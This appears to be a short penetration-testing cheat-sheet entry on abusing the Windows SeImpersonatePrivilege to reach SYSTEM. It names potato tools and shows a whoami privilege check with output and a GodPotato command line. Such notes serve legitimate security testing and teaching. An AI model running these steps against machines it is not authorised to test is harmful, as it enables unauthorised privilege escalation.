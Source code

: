 ```yaml
---
description: Abusing Token for Privilege Escalation
---
```


# Token Abuse

## SeImpersonatePrivilege

This privilege, held by any process, allows the impersonation (but not creation) of any token, provided that a handle to it can be obtained. Generally, this token/privilege is owned by a Windows service account. You can abuse this privilege to gain NT AUTHORITY/SYSTEM access on Windows using various tools like Rogue-WinRM, RottenPotato, SweetPotato, PrintSpoofer, Juicy Potato, or the newest toolkit, **GodPotato**.

```powershell
whoami /user /priv

# Example output
whoami /user /priv

USER INFORMATION
----------------

User Name                  SID     
========================== ========
nt authority\local service S-1-5-19


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeSystemtimePrivilege         Change the system time                    Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

[**GodPotato**](https://github.com/BeichenDream/GodPotato) ftw!

```powershell
GodPotato.exe -cmd "cmd /c whoami /user /priv"
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi-2sRb46gem7azeW1asaORa6a-sF0DOHnyoXa3cV1cwEDgXBGWhyphenhyphen7bA6gZKo7r9Loyo2WFTYTICkpJ9mD9NkFK7sompsVjJjKMJHdaO_6xzbg1fFMJBokD59TpftFgrJLz4jShC0trppiQnf7YiQ-grYiQpCeaz4J7SRPawg9j_1a8OqhQUHx8I7Pjpc0/s1201/godpotato-PE.png" alt=""><figcaption><p>GodPotato</p></figcaption></figure>
